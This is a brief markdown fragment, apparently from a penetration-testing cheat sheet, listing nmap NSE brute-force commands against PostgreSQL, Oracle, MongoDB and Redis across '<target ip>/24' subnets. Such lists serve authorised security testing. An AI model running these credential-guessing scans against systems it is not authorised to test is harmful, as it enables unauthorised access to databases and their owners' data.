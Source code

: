 - postgresql

    爆破

    `nmap -p 5432 --script pgsql-brute -v <target ip>/24`

- oracle

    爆破

    `nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL  -v <target ip>/24`

    `nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL -v <target ip>/24`

- mongdb

    爆破

    `nmap -p 27017  --script mongodb-brute <target ip>/24`

- redis

    爆破

    `nmap -p 6379 --script redis-brute.nse <target ip>/24`
